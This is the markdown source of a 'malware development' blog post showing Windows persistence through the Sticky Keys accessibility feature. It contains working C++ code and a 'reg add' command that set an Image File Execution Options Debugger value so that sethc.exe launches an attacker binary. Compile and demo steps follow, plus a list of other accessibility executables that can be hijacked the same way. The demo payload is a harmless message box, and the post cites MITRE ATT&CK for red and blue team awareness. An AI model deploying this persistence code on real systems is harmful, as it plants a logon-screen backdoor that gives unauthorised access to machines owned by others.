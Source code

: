 ```yaml
---
title:  "Malware development: persistence - part 12. Accessibility Features. Simple C++ example."
date:   2022-09-30 03:00:00 +0300
header:
  teaser: "/assets/images/72/2022-09-30_17-48.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/72/2022-09-30_17-48.png){:class="img-responsive"}    

This post is the result of my own research into another admin-level malware persistence trick: via Accessibility Features.    

In the one of the [previous](/malware/2022/09/10/malware-pers-10.html) posts, I wrote about persistence via Image File Execution Options. In the one of the PoC examples, we just created a debugger to a victim process in this registry key:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

then only requires the malicious application to be stored in `System32`.    

### practical example. sethc.exe

Today I just replace our victim process with `sethc.exe`. But what is `sethc.exe`? It appears it is responsible for sticky keys. Pressing the `Shift` key `5` times will enable the sticky keys:    

![pers](/assets/images/72/2022-09-30_17-26.png){:class="img-responsive"}    

Instead of the legitimate `sethc.exe`, "the rogue sethc.exe" , as usually for simplicity it is a meow messagebox, will be executed. The source code is pretty similar (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow messagebox:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Let's go to see everything in action. Check registry keys before:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```

![pers](/assets/images/72/2022-09-30_17-32.png){:class="img-responsive"}    

Then, compile our `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/72/2022-09-30_17-40.png){:class="img-responsive"}    

Run and check registry keys again:    

> **You need to have administrative privileges to replace the genuine Windows binary of the tool**

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /s
```

![pers](/assets/images/72/2022-09-30_17-44.png){:class="img-responsive"}    

Finally, pressing `Shift` key `5` times:     

![pers](/assets/images/72/2022-09-30_17-46.png){:class="img-responsive"}    

Note to the properties of the `hack.exe`:     

![pers](/assets/images/72/2022-09-30_17-47.png){:class="img-responsive"}    

![pers](/assets/images/72/2022-09-30_17-47_1.png){:class="img-responsive"}    

Perfect! =^..^=    

After end of experiments, for cleanup, run:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Force -Verbose
```

![pers](/assets/images/72/2022-10-01_03-39.png){:class="img-responsive"}    

### conclusion

The Windows Accessibility Features are a collection of utilities accessible via the Windows sign-in screen (like Sticky Keys). Some Accessibility features and their corresponding trigger choices and locations include:    

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Trigger: `Windows key + U`      

**2. On-Screen Keyboard**     
- `C:\Windows\System32\osk.exe`      
- Trigger: Click on On-screen keyboard button     

**3. Magnifier**   
- `C:\Windows\System32\Magnify.exe`     
- Trigger: `Windows Key + =`        

**4. Narrator**       
- `C:\Windows\System32\Narrator.exe`    
- Trigger: `Windows Key + Enter`    

**5. Display Switcher**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Trigger: `Windows Key + P`    

These Windows capabilities became well-known when the APT groups exploited them to backdoor target PCs. For example, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) and [APT41](https://attack.mitre.org/groups/G0096/) used sticky keys.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
